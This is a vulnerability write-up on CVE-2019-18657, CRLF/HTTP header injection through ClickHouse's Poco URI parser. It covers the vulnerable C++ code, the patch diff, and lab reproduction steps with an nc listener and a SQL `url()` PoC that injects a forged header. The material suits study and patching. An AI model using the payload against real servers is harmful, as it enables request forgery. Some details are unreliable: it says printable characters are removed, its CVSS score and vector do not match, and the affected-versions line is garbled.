


# CVE-2019-18657 CWE-74 ClickHouse HTTP header injection

## Vulnerability Background
- **ClickHouse :** An open-source columnar database management system designed specifically for online analytical processing (OLAP) scenarios, capable of efficiently handling large-scale data queries and analysis tasks. It offers high-performance data compression and parallel computing capabilities, supporting fast queries and real-time analysis of large-scale datasets. ClickHouse's architecture supports distributed computing, allowing it to scale across multiple nodes and provide high availability and fault tolerance in big data environments. Thanks to its fast query performance and scalability, ClickHouse excels in handling big data analytics, log analysis, data warehousing, and other application scenarios.

## Vulnerability Mechanism
In the poco module used by ClickHouse prior to version 19.13.5.44, the `URI::parse` function did not strictly verify and handle illegal characters in the URI, especially by directly deleting unprintable characters and spaces during cleanup, without throwing errors or performing valid checks. In this way, attackers can construct URIs with malicious or illegal characters (such as control characters or non-standard `scheme`) to bypass the normal URI parsing process, potentially resulting in incorrect parsing results or unexpected behavior, and triggering security issues such as information leaks or request forgery.

## Vulnerability Location
[poco/Foundation/src/URI.cpp at 7ad953ed6678918e036c1b9f17d51f89a8a134f1 · ClickHouse/poco](https://github.com/ClickHouse/poco/blob/7ad953ed6678918e036c1b9f17d51f89a8a134f1/Foundation/src/URI.cpp)

In the Foundation/src/URI.cpp file, line 720, `URI::parse` function.

On line 723, attempts are made to clean up the input URI string by removing all printable characters (including spaces). `std::remove_if` was used to remove characters that did not meet the requirements, and then continued parsing the URI. However, it silently removes inappropriate characters when handling URIs instead of directly reporting errors. Although spaces are illegal in URIs, some characters (for example, `%20` represent spaces) are valid. Therefore, this simple deletion method results in the removal of legitimate characters in the URI, thereby disrupting the URI's structure. Attackers can exploit URIs containing invalid characters by deleting them to bypass certain security checks or input validations, causing the URI to be mistakenly parsed or maliciously executed.

```cpp
// URI.cpp Document, line 720
void URI::parse(const std::string& uriToParse)
{
	std::string uri(uriToParse);
    // 723 lines **********
	uri.erase(std::remove_if(uri.begin(), uri.end(), [](int ch) {
		return !std::isprint(ch) or ch == ' ';
	}), uri.end());

	std::string::const_iterator it  = uri.begin();
	std::string::const_iterator end = uri.end();
	if (it == end) return;
	if (*it != '/' && *it != '.' && *it != '?' && *it != '#')
	{
		std::string scheme;
		while (it != end && *it != ':' && *it != '?' && *it != '#' && *it != '/') scheme += *it++;
		if (it != end && *it == ':')
		{
			++it;
			if (it == end) throw URISyntaxException("URI scheme must be followed by authority or path", uri);
			setScheme(scheme);
			if (*it == '/')
			{
				++it;
				if (it != end && *it == '/')
				{
					++it;
					parseAuthority(it, end);
				}
				else --it;
			}
			parsePathEtc(it, end);
		}
		else
		{
			it = uri.begin();
			parsePathEtc(it, end);
		}
	}
	else parsePathEtc(it, end);
}
```

## Remediation
Modified the behavior of the `parse` function: iterating through every character in the URI, if the character is a control character (`std::iscntrl(ch)`) or a space (`ch == ' '`), throws a `URISyntaxException` exception and indicates the URI contains invalid characters.

```diff
diff --git a/Foundation/src/URI.cpp b/Foundation/src/URI.cpp
index 278d4bef9d..ac916bbc2e 100644
--- a/Foundation/src/URI.cpp
+++ b/Foundation/src/URI.cpp
@@ -717,12 +717,12 @@ unsigned short URI::getWellKnownPort() const
 }
 
 
-void URI::parse(const std::string& uriToParse)
+void URI::parse(const std::string& uri)
 {
-	std::string uri(uriToParse);
-	uri.erase(std::remove_if(uri.begin(), uri.end(), [](int ch) {
-		return !std::isprint(ch) or ch == ' ';
-	}), uri.end());
+	std::for_each(uri.begin(), uri.end(), [] (char const &ch) {
+		if (std::iscntrl(ch) or ch == ' ')
+			throw URISyntaxException("URI contains invalid characters");
+	});
 
 	std::string::const_iterator it  = uri.begin();
 	std::string::const_iterator end = uri.end();
```

## Affected Versions
ClickHouse

- x excluding to 19.13.5.44

## Environment Setup
Start the Docker environment; ClickHouse version is 19.13.4.32

```txt
NIST:NVD   Base Score:5.3 MEDIUM   Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

```txt
cpe:2.3:a:clickhouse:clickhouse:19.13.4.32:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Use the nc command locally to listen for port 1337

   ```bash
   nc -lvp 1337
   ```

2. Enter the container command line and connect to ClickHouse

   ```bash
   docker exec -it clickhouse-19.13.4.32 clickhouse-client
   ```

3. Execute the PoC statement; the local IP is 192.168.233.153

   ```sql
   SELECT * FROM url('http://192.168.233.153:1337/? HTTP/1.1\r\nTest: test', CSV, 'column1 String');
   ```

4. You can see the listener port return a header `Test: test HTTP/1.1` that does not conform to the standard HTTP request format, which is the forged HTTP request header in the PoC

   

## PoC Analysis

```sql
SELECT * FROM url('http://192.168.233.153:1337/? HTTP/1.1\r\nTest: test', CSV, 'column1 String');
```

`url` is a special table function in ClickHouse used to retrieve data from a specified URL and query it as a table.

 `'http://127.0.0.1:1337/? HTTP/1.1\r\nTest: test'` is the URL passed to the `url` function.

- `http://127.0.0.1:1337/` is the address of the target server, pointing to port 1337 of the local server `127.0.0.1`.
- `?` is the starting part of the URL query parameters. It does not provide specific parameters and may be used to test or trigger some behavior of the service.
- `HTTP/1.1\r\nTest: test` is the header content of an HTTP request injected directly after the URL query parameters. However, the `HTTP/1.1\r\nTest: test` part is not a standard URL query parameter; instead, it bypasses the conventional URL formatting specification by injecting HTTP request headers (`Test: test`).

Normally, URL queries should be limited to parameters within the URL, but here `HTTP/1.1\r\nTest: test` is injected into the HTTP request header via the URL, trying to get the server to process a request containing a custom HTTP header. If ClickHouse fails to properly verify and clean up these headers, it may allow malicious header injections, leading to attacks such as fake requests, cross-site request forgery (CSRF), and information leaks.

## References
https://nvd.nist.gov/vuln/detail/CVE-2019-18657

[Check bad URIs in Poco library by alexey-milovidov · Pull Request #6466 · ClickHouse/ClickHouse](https://github.com/ClickHouse/ClickHouse/pull/6466)

[Throw error if URI contains illegal characters · ClickHouse/poco@0b27b94](https://github.com/ClickHouse/poco/commit/0b27b94488562dd24982b6220141d81c2b96856e)

[Added a test for bad URIs by alexey-milovidov · Pull Request #6493 · ClickHouse/ClickHouse](https://github.com/ClickHouse/ClickHouse/pull/6493/files)
